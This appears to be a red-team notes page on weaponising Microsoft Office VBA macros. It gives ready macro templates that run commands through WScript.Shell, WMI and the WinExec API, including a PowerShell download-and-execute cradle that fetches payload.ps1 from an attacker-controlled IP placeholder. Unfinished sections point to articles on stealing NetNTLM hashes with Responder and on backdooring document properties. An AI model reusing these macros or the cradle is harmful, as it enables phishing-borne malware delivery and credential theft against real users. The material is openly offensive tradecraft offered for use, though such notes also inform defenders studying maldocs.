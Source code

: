 # Microsoft Office Macros

> [!INFO] Limited String Characters
> VBA Macro has a 50 characters string limit so you have to concatenate it. Use [[Macro Formatting Scripts|scripts]] to split the chunks.

## 01 - Command Execution

### 1.1 - Windows Script Host

Simple command execution via concatenation.

```vbscript
Sub Payload()
	Dim objShell As Object
	Set objShell = CreateObject("WScript.Shell")
    Dim Str As String
    
    Str = Str + ""

	' CreateObject("WScript.Shell").Run "<commands>", 1, True
    objShell.Run Str, 1, True
End Sub
```

VBA specific command execution.

```vbscript
Public Function Payload() As Variant
    Dim WindowScriptHost As Object
    Set WindowScriptHost = VBA.CreateObject("WScript.Shell")
    Dim waitOnReturn As Boolean: waitOnReturn = True
    Dim windowStyle As Integer: windowStyle = 7
    WindowScriptHost.Run "<commands>", windowStyle, waitOnReturn
End Function
```

Control the execution asynchronously.

```vbscript
Sub Payload()
	Dim objShell As Object
	Set objShell = CreateObject("WScript.Shell")

	' If set to True it will execute the shell asynchronous and wait for it to finish
	' If set to False it will not wait for the execution process to finish if there's a next line
	objShell.Run "powershell.exe -Command ""IEX (New-Object Net.WebClient).DownloadString('http[s]://<IP>[:PORT]/payload.ps1')""", 0, True

End Sub
```

### 1.2 - Windows Management Instrument (WMI)

```vbscript
Sub WMI_Execution()
    Set Wmi = GetObject("winmgmts:\\.\root\cimv2")
    Set Process = Wmi.Get("Win32_Process")
    Process.Create("<commands>")
End Sub
```

### 1.3 - WinAPI

```vb
Declare Function WinExec Lib "kernel32" ( _
     ByVal lpCmdLine As String, _
     ByVal nCmdShow As Long _
) As Long

Const SHOW_HIDE As Long = 0

Sub ExecuteFile()
     WinExec "C:\Windows\System32\notepad.exe", SHOW_HIDE
End Sub
```

## 02 - Payload Inside Document

TODO: Fill this info

Using **comments** in the **Properties** to include malware URL link to execute as shell via `rundll32.exe`

- [Malicious DLL Infection Through Metasploit SMB Exploit](https://www.drchaos.com/post/malicious-dll-infection-thru-metasploit-smb-exploit)

- [The Art of Creating backdoors and Exploits with Metasploit (Duplicate)](https://www.drchaos.com/post/the-art-of-creating-backdoors-and-exploits-with-metasploit)

- [Bank Security: MS Excel Weaponization Techniques](https://bank-security.medium.com/ms-excel-weaponization-techniques-79ac51610bf5)

## 03 - Harvest SMB Credentials

TODO: Demonstrate as many examples to fetch credentials using SMB relay via Responder

Refer to **Client-Side Attacks** subsection under [[02 - Responder|Responder]].

Refer to **Client-Side Attacks** subsection under [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Authentication Relay/Metasploit|Metasploit]].

- [Securify: Living off the Land Stealing NetNTLM Hashes](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes/)

- [n00py: Phishing with Maldocs](https://www.n00py.io/2017/04/phishing-with-maldocs/)

## 04 - HTA

TODO: Fill this info

---
## References

### Backlinks

- [[Document Templates]]

### MalAPI

- [MalAPI: WinExec](https://malapi.io/winapi/WinExec)

### mgeeky

- [mgeeky: Backdooring Office Structures. Part 1: The Oldschool](https://mgeeky.tech/backdooring-office-structures-part-1-oldschool/)

- [mgeeky:  Backdooring Office Structures. Part 2: Payload Crumbs In Custom Parts ](https://mgeeky.tech/payload-crumbs-in-custom-parts/)

### Offensive Security

- [Offensive Security: Weaponizing and Abusing Hidden Functionalities Contained in Office Document Properties](https://www.offsec.com/blog/macro-weaponization/)

### Denwp

- [Denwp: From Base64 to Reverse Shell - Unpacking Malware from a Word Document](https://denwp.com/macro-word-document/)

### Sevagas

- [sevagas: Advanced_Initial_access_in_2024_OffensiveX](https://github.com/sevagas/Advanced_Initial_access_in_2024_OffensiveX/blob/main/breach_the_gates_extended.pdf)

### War Room

- [War Room: Metasploit Module of the Month Web Delivery](https://warroom.rsmus.com/metasploit-module-of-the-month-web_delivery/)

### nicholasmckinney

- [nicholasmckinney: Shellcode Execution Via HTA](https://gist.github.com/nicholasmckinney/e90e47e0545430656bdcca5544d6b4fc)